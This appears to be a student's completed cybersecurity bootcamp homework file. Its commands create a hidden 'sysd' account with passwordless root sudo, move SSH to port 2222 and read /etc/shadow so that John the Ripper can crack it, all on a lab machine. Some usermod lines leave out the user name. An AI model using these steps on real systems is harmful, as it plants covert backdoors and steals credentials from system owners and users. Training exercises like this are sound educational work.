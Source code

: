 ## Week 6 Homework Submission File: Advanced Bash - Owning the System

Please edit this file by adding the solution commands on the line below the prompt. 

Save and submit the completed file for your homework submission.

**Step 1: Shadow People** 

1. Create a secret user named `sysd`. Make sure this user doesn't have a home folder created:
    - `adduser --uid 113 --no-create-home sysd`

2. Give your secret user a password: 
    - `passwd sysd`

3. Give your secret user a system UID < 1000:
    - `usermod -u 113`

4. Give your secret user the same GID:
   - `usermod -g sysd`

5. Give your secret user full `sudo` access without the need for a password:
   -  `visudo` then, in sudoers file `sysd ALL=(ALL) NOPASSWD:ALL`

6. Test that `sudo` access works without your password:

    ```bash
    su sysd
    sudo -l
    ```

**Step 2: Smooth Sailing**

1. Edit the `sshd_config` file:

    ```bash
   Port 2222 
    ```

**Step 3: Testing Your Configuration Update**
1. Restart the SSH service:
    - `systemctl restart ssh`

2. Exit the `root` account:
    - `exit`

3. SSH to the target machine using your `sysd` account and port `2222`:
    - `ssh sysd@192.168.6.105 -p 2222`

4. Use `sudo` to switch to the root user:
    - `sudo -s`

**Step 4: Crack All the Passwords**

1. SSH back to the system using your `sysd` account and port `2222`:

    - `ssh sysd@192.168.6.105 -p 2222`

2. Escalate your privileges to the `root` user. Use John to crack the entire `/etc/shadow` file:

    - `unshadow /etc/passwd /etc/shadow > /tmp/pfj`
    - `john /tmp/pfj`
    - `john --show /tmp/pfj`

---

© 2020 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.

